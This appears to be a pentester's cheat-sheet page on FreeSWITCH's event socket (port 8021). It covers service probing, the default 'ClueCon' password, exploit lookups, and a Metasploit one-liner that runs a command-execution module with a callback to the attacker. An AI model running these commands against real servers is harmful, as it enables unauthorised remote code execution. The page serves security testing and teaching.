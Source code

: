 # FreeSWITCH (8021)

## 101

`FreeSWITCH` is an open-source VoIP platform commonly used for PBX systems, SIP trunking, and conferencing services. The `mod_event_socket` module in FreeSWITCH opens a TCP socket—typically on port `8021`—which allows external applications to communicate with the switch using a command/response protocol.

This interface should **never be exposed externally** without robust access controls. If an attacker guesses or knows the `event_socket_password`—which defaults to `ClueCon` in many installations—they can authenticate and issue commands to the FreeSWITCH server. With successful authentication, an attacker could list and manage calls, inject audio or messages, execute arbitrary dial plans, and potentially escalate privileges further depending on the system's configuration.

## Enumeration

```bash
# TCP scan with nmap
PORT     STATE SERVICE       VERSION

8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket

# Manual service probbing
$ nc -nv 192.168.244.151 8021
(UNKNOWN) [192.168.244.151] 8021 (zope-ftp) open
Content-Type: auth/request
...
Content-Type: text/disconnect-notice
Content-Length: 67

Disconnected, goodbye.
See you at ClueCon! http://www.cluecon.com/
```

Upon probing with `nc`, the connection to the port succeeds and returns the message: `Content-Type: auth/request`, indicating that `FreeSWITCH` is prompting for a password. Authentication is usually performed using the command `auth <password>`. If the password is correct, the server responds with `Content-Type: command/reply Reply-Text: +OK accepted`.

## Attacks

```bash
# Check default credentials
$ creds search freeswitch
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| freeswitch | <blank>  | ClueCon  |
+------------+----------+----------+

# Check public exploits
$ searchsploit freeswitch
...
FreeSWITCH - Event Socket Command Execution (Metasploit)                  
| multiple/remote/47698.rb
```

A [Metasploit module](https://www.rapid7.com/db/modules/exploit/multi/misc/freeswitch_event_socket_cmd_exec/) exists for the above RCE vulnerability:

{% code overflow="wrap" %}
```bash
msf > use exploit/multi/misc/freeswitch_event_socket_cmd_exec
msf exploit(freeswitch_event_socket_cmd_exec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix (In-Memory)
    1   Linux (Dropper)
    2   PowerShell (In-Memory)
    3   Windows (In-Memory)
    4   Windows (Dropper)
    
msf exploit(freeswitch_event_socket_cmd_exec) > set TARGET <target-id>
msf exploit(freeswitch_event_socket_cmd_exec) > show options
msf exploit(freeswitch_event_socket_cmd_exec) > exploit

# Inline command
sudo msfconsole -q -x "use exploit/multi/misc/freeswitch_event_socket_cmd_exec; set TARGET 3; set RHOSTS <target-ip>; set LHOST tun0; run;"
```
{% endcode %}
